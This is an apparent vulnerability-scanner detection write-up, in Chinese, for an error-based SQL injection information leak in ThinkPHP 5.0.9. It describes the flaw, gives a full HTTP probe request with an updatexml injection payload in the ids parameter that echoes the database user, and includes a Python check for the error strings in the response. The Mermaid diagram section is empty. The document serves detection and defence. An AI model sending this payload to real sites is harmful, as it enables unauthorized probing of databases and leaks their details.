

# ThinkPHP 5.0.9 信息泄露（SQL注入报错）漏洞（thinkphp-509-information-disclosure）检测说明

## 漏洞简介

ThinkPHP 5.0.9 存在SQL注入报错信息泄露漏洞，攻击者可通过构造恶意请求触发详细SQL错误，进而获取数据库敏感信息（如用户名、连接信息等）。

## 影响范围

- 产品：ThinkPHP
- 影响版本：5.0.9
- CVE编号：无（社区编号 thinkphp-509-information-disclosure）
- 危害等级：Critical

## 漏洞原理

/index.php接口的参数未做有效过滤，攻击者可通过ids参数注入SQL语句，利用updatexml函数触发数据库报错，详细错误信息在响应中回显。

## 利用方式与攻击流程

1. 攻击者构造带有SQL注入payload的GET请求，ids参数注入`[0,updatexml(0,concat(0xa,user()),0)]`。
2. 服务器端未对参数进行安全处理，直接拼接执行SQL。
3. 数据库执行恶意SQL，触发报错，详细错误信息（如SQLSTATE、XPATH syntax error）在响应中回显。
4. 攻击者分析响应内容，确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1 HTTP/1.1
Host: target.com
```

- ids参数注入了`[0,updatexml(0,concat(0xa,user()),0)]`，用于触发数据库报错。

### 预期响应与交互

- 响应体需包含`SQLSTATE`和`XPATH syntax error`。
- HTTP状态码为500。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 500 and 'SQLSTATE' in response.text and 'XPATH syntax error' in response.text:
        return True
    return False
```

### 检测流程Mermaid图



## 参考链接

- [Vulhub - ThinkPHP SQL注入](https://github.com/vulhub/vulhub/tree/0a0bc719f9a9ad5b27854e92bc4dfa17deea25b4/thinkphp/in-sqlinjection) 